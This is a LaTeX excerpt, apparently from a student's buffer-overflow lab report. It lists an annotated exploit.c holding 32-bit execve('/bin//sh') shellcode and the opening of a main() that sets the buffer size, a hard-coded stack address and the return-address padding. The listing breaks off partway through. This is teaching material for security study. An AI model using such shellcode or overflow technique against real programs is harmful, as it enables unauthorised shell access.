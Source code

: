 \documentclass[14pt]{extarticle}
\begin{document}
My final exploit code looked as follows:\\
\begin{lstlisting}[language=c]
/* exploit.c */
/* A program that creates a file containing code for launching shell */
// include required libraries
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// This is the exploit code that will be placed in the buffer.
const char code[] =
	// xor a register with it's self to clear it
    "\x31\xc0"       /* Line 1:     xorl       %eax,%eax        */
	// push the null value to the stack
    "\x50"            /* Line 2:     pushl      %eax             */
	// push the value "//sh" to the stack, double // is used to make 32 bit number
    "\x68""//sh"     /* Line 3:     pushl      $0x68732f2f      */
	// push the value "/bin" to the stack
    "\x68""/bin"     /* Line 4:     pushl      $0x6e69622f      */
	// copy location of the name[ 0 ] parameter to register ebx
    "\x89\xe3"       /* Line 5:     movl       %esp,%ebx        */
    // push another null value to the stack
    "\x50"           /* Line 6:     pushl      %eax             */
	// push the ebx register to the stack
    "\x53"           /* Line 7:     pushl      %ebx             */
	// copy location of name parameter to register ecx
    "\x89\xe1"       /* Line 8:     movl       %esp,%ecx        */
	// sets edx to zero.
    "\x99"           /* Line 9:     cdq                         */
	// copy the value of register al to 11
    "\xb0\x0b"       /* Line 10:    movb       $0x0b,%al        */
	// create an interrupt and execute code the execve command
    "\xcd\x80"       /* Line 11:    int        $0x80            */
;
void main(int argc, char **argv)
{
	// arr_size will hold the size of the target array. ( this is so we can know when we have overflown the buffer )
	int  arr_size    = 24;              // size of target array. (buffer that will be overflowed)

	// buff_size will hold the maximum size of our buffer. For this lab it will be 517 bytes
	int  buff_size   = 517;             // size of badfile. (should match larger buffer size)

	// buff_loc is the location of the buffer in memory during runtime of the stack program.
	long buff_loc    = 0xbfffeb38;      // retrieved from outputting buffer location.

	// gcc_padding will hold the number of bytes that are needed to reach the return address from the start of the buffer.
	int  gcc_padding = arr_size + 12;   //36  - adding 8 to get to return address


\end{lstlisting}
\end{document}

